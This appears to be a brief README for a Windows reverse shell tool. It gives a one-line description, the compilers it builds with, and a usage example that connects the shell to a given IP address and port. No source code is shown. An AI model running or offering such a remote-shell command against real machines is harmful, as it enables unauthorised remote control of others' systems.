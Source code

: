 Description
===========

	The reverse shell for remote access.

Requests
========
	OS: windows

Compiler
=======
	
	Compiler/IDE:
		MinGW-w64
		Codeblocks
		Dev-C++

Using
=====

	EXAMPLES:
		reverseShell 192.168.10.150 2035